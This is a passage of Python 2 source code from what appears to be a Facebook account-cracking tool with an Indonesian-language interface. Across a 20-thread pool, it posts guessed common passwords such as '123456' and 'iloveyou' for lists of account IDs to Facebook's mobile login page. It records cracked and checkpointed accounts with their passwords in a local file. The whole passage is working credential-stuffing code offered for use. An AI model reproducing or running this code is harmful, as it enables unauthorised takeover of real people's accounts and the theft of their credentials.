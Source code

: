 								oks.append(em)
							else:
								if 'checkpoint' in xo:
									print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+px3
									cek = open('done/usa.txt', 'a')
									cek.write('\n   [CP] '+em+' • '+px3)
									cek.close()
									CP.append(em)
								else:
									px4 = '123456'
									rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : px4, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
									xo = rex.content
									if 'mbasic_logout_button' in xo or 'save-device' in xo:
										print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+px4
										oke = open('done/usa.txt', 'a')
										oke.write('\n   [OK] '+em+' • '+px4)
										oke.close()
										oks.append(em)
									else:
										if 'checkpoint' in xo:
											print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+px4
											cek = open('done/usa.txt', 'a')
											cek.write('\n   [CP] '+em+' • '+px4)
											cek.close()
											CP.append(em)
										else:
											px5 = 'iloveyou'
											rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : px5, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
											xo = rex.content
											if 'mbasic_logout_button' in xo or 'save-device' in xo:
												print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+px5
												oke = open('done/usa.txt', 'a')
												oke.write('\n   [OK] '+em+' • '+px5)
												oke.close()
												oks.append(em)
											else:
												if 'checkpoint' in xo:
													print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+px5
													cek = open('done/usa.txt', 'a')
													cek.write('\n   [CP] '+em+' • '+px5)
													cek.close()
													CP.append(em)
		except:
			pass
	p = ThreadPool(20)
	p.map(main, id)
	print ("\033[0;91m╚═══════════════════════════════════════════════════════════════╝")
        print ("\033[0;91m╔═══════════════════════════════════════════════════════════════╗")
	print '\033[0;97m   • \033[0;97mSelesai ...'
	print"\033[0;97m   • \033[0;97mTotal \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97m: \033[0;97m"+str(len(oks))+"\033[0;97m/\033[0;97m"+str(len(CP))
	print '\033[0;97m   • \033[0;97mOK\033[0;97m/\x1b[0;97mCP \033[0;97mfile tersimpan \033[0;97m: \033[0;97mdone/usa.txt'
	print "\033[0;91m╚═══════════════════════════════════════════════════════════════╝"
	raw_input("\033[0;97m   < \033[0;97mKembali\033[0;97m >")
	os.system("python2 crackfb2.py")
	